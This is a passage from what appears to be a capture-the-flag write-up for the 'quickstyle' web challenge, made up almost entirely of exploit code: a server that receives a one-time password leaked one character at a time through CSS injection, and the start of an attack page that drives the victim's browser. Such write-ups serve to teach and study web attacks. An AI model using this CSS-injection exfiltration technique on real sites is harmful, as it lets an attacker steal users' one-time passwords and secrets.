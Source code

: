 ```js
      }
    `.trim();
  }

  const html = `
    <style>${css}</style>
    <form name="querySelectorAll"></form>
  `.trim();

  return reply.type('html').send(html);
});

app.get('/cssi/leak', async (req, reply) => {
  known = req.query.prefix.trim();
  console.log({ len: known.length, known });
  if (known.length === TARGET_LEN) {
    console.log({ user, otp: known });
    app.close();
  }
  return '';
});

app.get('/cssi/prefix', async (req, reply) => {
  const len = parseInt(req.query.len);
  while (known.length < len) {
    await sleep(10);
  }
  return known;
});

app.listen({ address: '0.0.0.0', port: 8080 }, (err) => {
  if (err) throw err;
});
```
{: file="index.js" }

```html
<body>
  <script>
    // const BASE_URL = "http://web:3000";
    const BASE_URL = "https://quickstyle.chall.lac.tf";

    const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms));

    const back = async (win) => {
      while (true) {
        try {
          console.log(win.history);
          win.history.back();
          return;
        } catch {
          await sleep(10);
        }
      }
    };

    const TARGET_LEN = 80;

    const main = async () => {
      const user = "username_xxxxx";
      const page = `${location.origin}/cssi`;
      const win = open(`${BASE_URL}/?${new URLSearchParams({ user, page })}`);

      for (let len = 1; len < TARGET_LEN; len++) {
```